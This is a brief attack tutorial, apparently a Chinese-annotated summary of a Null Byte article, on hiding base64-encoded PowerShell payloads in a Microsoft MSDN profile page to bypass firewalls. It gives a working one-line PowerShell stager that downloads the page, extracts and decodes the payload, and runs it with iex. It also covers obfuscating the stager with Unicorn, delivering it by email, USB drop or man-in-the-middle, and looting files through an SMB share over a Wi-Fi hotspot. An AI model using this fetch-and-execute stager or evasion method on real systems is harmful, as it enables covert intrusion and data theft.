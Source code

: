 ## Use Microsoft.com Domains to Bypass Firewalls & Execute Payloads

### Create the Payload

`powershell -ep bypass /w 1 /C New-Item -ItemType file 'C:\Users\\\$env:USERNAME\Documents\pwn_sauce'`

`printf '%s' "PAYLOAD GOES HERE" | base64 | tr -d '\n'` [^1]

### Host the Payload on the Microsoft Website

### Create the Stager

`$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/USERNAME -UseBasicParsing;$r = [Regex]::new("(?<=START)(.*)(?=END)");$m = $r.Match($wro.rawcontent);if($m.Success){ $p = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m.value));iex $p }`[^2]

### Obfuscate the PowerShell Stager (Optional)

`python unicorn.py stager.ps1` [^3]

`cat powershell_attack.txt`

### Deploy the Stager

- Man-in-the-middle
- Email Attachment
- USB Dead Drop
- USB Rubber Ducky
- …

### Improve the Attack (Conclusion) [^4]

[原文](https://null-byte.wonderhowto.com/how-to/use-microsoft-com-domains-bypass-firewalls-execute-payloads-0196505/)

---

[^1]: ``cG93ZXJzaGVsbCAtZXAgYnlwYXNzIC93IDEgL0MgTmV3LUl0ZW0gLUl0ZW1UeXBlIGZpbGUgJ0M6XFVzZXJzXCRlbnY6VVNFUk5BTUVcRG9jdW1lbnRzXHB3bl9zYXVjZSc=``
[^2]: PowerShell单线程设计用于下载Microsoft用户的配置文件页面，提取编码的有效负载，对其进行解码，然后执行
[^3]: 使用 [Unicorn](https://github.com/trustedsec/unicorn) 这个工具来混淆 stager
[^4]: 通常情况下我们放置通用的TCP反向shell，但这很容易检测到 - 这会破坏在stager中使用Microsoft或Google域的目的。因此将目标计算机用作Wi-Fi热点并[创建SMB共享](https://docs.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=win10-ps)以允许入侵者连接到目标的Wi-Fi热点（绕过原始网络）并掠夺计算机上的文件